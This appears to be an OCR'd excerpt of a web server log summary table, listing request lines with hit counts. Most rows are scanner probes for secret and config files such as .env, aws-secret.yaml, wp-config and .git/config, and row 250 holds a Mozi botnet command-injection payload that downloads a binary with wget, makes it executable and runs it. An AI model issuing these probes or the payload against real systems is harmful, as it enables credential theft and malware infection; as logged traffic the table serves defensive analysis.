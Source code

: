 | 239 |                     3 | GET /portal/.env HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                   |
| 240 |                     3 | GET /socket.io/socket.io.js HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                        |
| 241 |                     3 | GET /conf/.env HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                     |
| 242 |                     3 | GET /awstats/.env HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                  |
| 243 |                     3 | GET /aws-secret.yaml HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                               |
| 244 |                     3 | GET /wp-config HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                     |
| 245 |                     3 | GET /phpinfo HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                       |
| 246 |                     3 | GET /channel/get HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                   |
| 247 |                     3 | GET /infra/.git/config HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                             |
| 248 |                     3 | GET /app/frontend/.git/config HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                      |
| 249 |                     3 | GET /helpdesk/WebObjects/Helpdesk.woa HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                              |
| 250 |                     3 | 27;wget%20http://%s:%d/Mozi.m%20-O%20->%20/tmp/Mozi.m;chmod%20777%20/tmp/Mozi.m;/tmp/Mozi.m%20dlink.mips%27$ HTTP/1.0                                                                                                                                                                                                                                                                                                       |
| 251 |                     3 | GET /Module1/js/Home_9b5766a815f5416da1d14b6622620932.js HTTP/1.1                                                                                                                                                                                                                                                                                                                                                           |